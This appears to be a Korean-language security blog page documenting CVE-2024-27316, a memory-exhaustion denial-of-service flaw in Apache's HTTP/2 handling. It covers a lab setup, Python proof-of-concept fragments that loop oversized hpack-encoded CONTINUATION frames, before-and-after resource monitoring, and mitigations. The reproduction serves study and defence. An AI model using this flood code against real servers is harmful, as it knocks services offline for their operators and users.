 ```yaml
---
layout: default
title: cve-2024-27316
category: "Apache"
nav_order: 1
parent: cve
---
```


# CVE-2024-27316
{: .no_toc }

Apache 서버 메모리 고갈 취약점
{: .fs-6 .fw-300 }

[NVD][NVD]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}
[Apache][Apache]{: .btn .fs-5 .mb-4 .mb-md-0 target="_blank"}

1. TOC
{:toc}

--- 

## 1.1 취약점 요약
HTTP/2 프로토콜에서 사용자가 제한을 초과하는 헤더를 지속적으로 전송할 때 nghttp2 라이브러리가 이를 임시로 메모리에 버퍼링하여 메모리 고갈을 초래할 수 있는 취약점

## 1.2 취약 대상
Apache HTTP Server 2.4.17 ~ 2.4.58 버전

## 1.3 공격 원리
- Apache Server에서 일정 크기를 초과하는 헤더에 대해 HTTP 413 응답을 생성 
- 초과된 헤더는 HPACK으로 압축된 후 nghttp2 라이브러리 내부의 메모리 버퍼에 임시로 저장
- 저장된 헤더는 다음 패킷이 처리될 때까지 유지
- 공격자는 이 취약점을 악용하여 서버에 지속적으로 초과된 길이의 HTTP/2 헤더를 전송 
- 서버는 메모리 소진으로 인해 서비스 중단 
![](../../assets/images/cve-2024-27316/attack.png)

---

## 1.4 환경 구성
- Victim: Ubuntu 22.0.4 (IP: 192.168.10.128)
- Attacker: Windows11 (IP: 192.168.9.1) <br>

Apache Server v2.4.52 설치 및 http2 프로토콜 사용 설정
```bash
## Apache 2.4.52 설치 및 환경설정
sudo apt install apache2=2.4.52*
sudo apt install libnghttp2-dev

sudo a2enmod ssl
sudo a2enmod http2
sudo a2ensite default-ssl
sudo ufw allow 80/tcp
sudo ufw allow 8080/tcp
sudo ufw allow 443/tcp

sudo systemctl restart apache2

sudo vi /etc/apache2/sites-available/default-ssl.conf

## default-ssl.conf 설정 - [HTTP2, HTTP 1.1 프로토콜 사용]
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        SSLEngine on
        SSLCertificateFile /etc/ssl/certs/apache-selfsigned.crt
        SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
            SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>

        Protocols h2 http/1.1
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
</IfModule>

sudo systemctl restart apache2

sudo vi /etc/apache2/apache2.conf

## apache2.conf 설정 - 취약점 설정[requests 헤더 사이즈에 대한 limit를 늘림]
LimitRequestFieldSize 16384
LimitRequestFields 1000
```

<br>구현 된 홈페이지 (192.168.56.1:443)
![](../../assets/images/cve-2024-27316/homepage.PNG)

---

## 1.5 공격 재현
Python Version : 3.12.3 <br>
Module : hpack, threading, hyperframe, socket, ssl, multiprocessing <br>
Code : ↓ (주요 함수 설명)

### import 추가 
{: .no_toc }

```py
from hpack import Encoder
import threading
from hyperframe.frame import HeadersFrame, ContinuationFrame, SettingsFrame, WindowUpdateFrame
import socket
import ssl
from multiprocessing import Process, current_process
```

### hpack을 사용하여 header 크기 압축 
{: .no_toc }

```py
def hpack_header(i):
    encoder = Encoder()
    name = f'ssssssssssssssssssssshhhhhhhhhhhhhhhhhhhhhhhwwwwwwwwwwwwwwwwwshwshwssssssssshhhhhhhhhhhwwwwwwwwwwww{i}'
    value = f'03310331033198989803319898033198980331998980331033103310331989898033198980331989803319989803319898{i}'
    headers = [(name, value)]
    encoded_headers = encoder.encode(headers)
    return encoded_headers
```

### HTTP/2 프레임 반복 생성 후 전송
{: .no_toc }

```py
    i = 0
    while True:
        continuation_frame = ContinuationFrame(1)
        continuation_frame.data = hpack_header(i)
        continuation_frame.flags.add('END_HEADERS')
        sock.sendall(continuation_frame.serialize())
        i += 1
```

---

## 1.6 Apache 서버 DoS 공격 전후 시스템 상태 분석
Apache2 시스템 상태 모니터링

```bash
htop -p $(pgrep apache2 | tr '\n' ',')
```

<br>DoS 공격 실행 전, CPU, 메모리 사용량이 안정적으로 유지 (Mem : 475M)
![](../../assets/images/cve-2024-27316/Dos-before.png)

<br>DoS 공격으로 인해 CPU, 메모리 사용량이 증가 (Mem : 504M)
![](../../assets/images/cve-2024-27316/Dos-after.png)

<br>지속적인 공격이나 높은 부하로 인해 서버의 자원이 고갈되면 프로세스가 비정상적으로 종료
![](../../assets/images/cve-2024-27316/result.png)

---

## 1.7 대응 방안
- Apache HTTP Server 버전 2.4.59 이상으로 업데이트
- nghttp2 라이브러리의 메모리 관리 로직 개선
- HTTP/2 프로토콜을 비활성화

--- 

## 1.8 참고 자료
- [PoC - Dos](https://github.com/lockness-Ko/CVE-2024-27316){target="_blank"}
- [PoC - Apache](https://github.com/aeyesec/CVE-2024-27316_poc){target="_blank"}

---

[NVD]: https://nvd.nist.gov/vuln/detail/CVE-2024-27316
[Apache]: https://httpd.apache.org/security/vulnerabilities_24.html
